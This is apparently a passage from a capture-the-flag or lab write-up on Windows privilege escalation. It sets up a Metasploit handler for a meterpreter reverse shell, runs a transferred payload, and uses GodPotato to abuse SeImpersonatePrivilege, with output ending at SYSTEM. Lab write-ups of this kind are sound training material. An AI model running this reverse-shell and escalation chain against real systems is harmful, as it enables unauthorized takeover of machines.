 ```c
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.8.0.2
LHOST => 10.8.0.2
msf6 exploit(multi/handler) > set LPORT 9696
LPORT => 9696
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.0.2:9696
```

```c
PS C:\temp> .\a.exe
.\a.exe
```

After I transferred my `payload` to the box, I downloaded a copy of `GodPotato` to abuse the `SeImpersonatePrivilege`.

- [https://github.com/BeichenDream/GodPotato/releases](https://github.com/BeichenDream/GodPotato/releases)

Then I pointed it to my `payload` and fired it up.

```c
PS C:\temp> .\GodPotato-NET4.exe -cmd 'a.exe'
.\GodPotato-NET4.exe -cmd 'a.exe'
[*] CombaseModule: 0x140713520529408
[*] DispatchTable: 0x140713523116360
[*] UseProtseqFunction: 0x140713522411744
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\95813bdb-5775-4eb3-97bc-7ef587af613a\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00007802-02d4-ffff-334f-665ec6154170
[*] DCOM obj OXID: 0xc919f994cd5eed6a
[*] DCOM obj OID: 0xb3ddca86ecf73975
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 888 Token:0x784  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 3364
```
